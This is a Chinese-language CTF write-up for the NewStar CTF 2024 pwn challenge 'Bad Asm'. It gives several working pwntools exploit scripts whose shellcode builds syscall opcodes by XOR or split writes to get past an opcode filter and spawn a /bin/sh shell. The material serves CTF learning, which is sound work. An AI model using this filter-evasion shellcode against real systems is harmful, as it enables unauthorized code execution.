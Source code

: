 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# Bad Asm

程序过滤syscall / sysenter / int 0x80的汇编指令的机器码。

strcpy限制了shellcode的机器码中不能出现0x00。

开启的可执行的段具有写的权限，用异或搓出来syscall的机器码之后用mov写入到shellcode后面，中间用nop连接一下就行了。

由于程序清空了rsp rbp寄存器，我们需要恢复一下rsp的值，任意一个可读写的段即可，否则push操作会寄掉。

可以用异或先把syscall的机器码插入到当前shellcode的后面来执行read的syscall，利用read在旧的shellcode后面插入execve("/bin/sh",0,0)的shellcode，第二次输入的payload中0x42个a的作用是覆盖掉老的shellcode，毕竟执行过了也没用了。

恢复rsp的作用是为了能够正常执行push/pop指令，这里push/pop指令位于shellcraft.sh()生成的shellcode中。否则其生成的shellcode无法正常执行。

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标 : 使用syscall执行read(0,code,0x3fff)
mov rsp, rdi
mov rax,rdi
add sp, 0x0848  ;//从开头到这里的作用是给rsp一个合法值，使push/pop指令能够正常执行。同时设置rax的值方便后面往当前shellcode末尾拼接上syscall指令的机器码。

mov rsi,rdi
mov dx,0x3fff ;//这两行作用是设置rsi、rdx寄存器

mov cx,0x454f
xor cx,0x4040 ;//这两行作用是用异或搓出来 0f 05 (syscall的机器码)
add al,0x40
mov [rax],cx  ;//rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入0f 05，即syscall，相当于拼接到当前shellcode后面。

xor rdi,rdi
xor rax,rax   ;//设置read的系统调用号0，设置rdi寄存器
'''
p.sendafter("Input your Code :",asm(shellcode).ljust(0x40,b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置syscall的机器码。

题目检查syscall的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用mov，这样我们就可以将其机器码：0xf 0x5拆开，而不是连续的字节，这样也可以通过检查。

```Python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的0f05那里就行了。

下面的exp中直接异或搓了一个execve("/bin/sh",0,0)，这样也是可以的。

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标：执行execve("/bin/sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的shellcode的段的起始位置，正好这个段有读写权限，就直接拿来在0x848偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的shellcode）
mov rsi,0x4028636f2e49226f
mov rdx,0x4040104040204040 
xor rsi,rdx 
push rsi ;//异或搓出来'/bin/sh\x00'(正好8字节，一个寄存器能存下)并push到栈上面。此时rsp指向的即此字符串的开始位置

mov ax,0x454f
xor ax,0x4040
mov rsi,rdi
add sil,0x40
mov [rsi],ax ;//搓出来syscall的机器码0f 05并且拼接到当前shellcode后面。

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;//设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号
'''    
p.sendafter("Input your Code :",asm(shellcode).ljust(0x40,b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来syscall的机器码然后push到栈上面，最后jmp rsp即可。由于这种方法我们并不依赖nop指令进行连接，在送payload的时候可以去掉ljust了

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标：执行execve("/bin/sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop
mov rsi,0x4028636f2e49226f
mov rdx,0x4040104040204040 
xor rsi,rdx 
push rsi ;//异或搓出来'/bin/sh\x00'并push到栈上面。此时rsp指向的即此字符串的开始位置

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;// 设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号

mov cx,0xf5ff
xor cx,0xf0f0 ;//异或拿到syscall的机器码
push rcx      ;//push到栈顶，rsp此时指向的是syscall指令
jmp rsp
'''

p.sendafter("Input your Code :",asm(shellcode))

p.interactive()
```

在把'/bin/sh\x00'push到栈上面的时候我们为了清除最后的0x00，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用'/bin///sh'，shellcraft.sh()生成的shellcode采用的就是这种方法。

按照这种方法更改的shellcode，也是可以拿到shell的

```Python
shellcode='''
;// 目标：执行execve("/bin///sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax ;//将'/bin///sh'push到栈上面，最后一个字符h是第6行push的，高位默认填充为0，此时就不用异或了

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;// 设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号

mov cx,0xf5ff
xor cx,0xf0f0 ;//异或拿到syscall的机器码
push rcx      ;//push到栈顶，rsp此时指向的是syscall指令
jmp rsp
'''
```
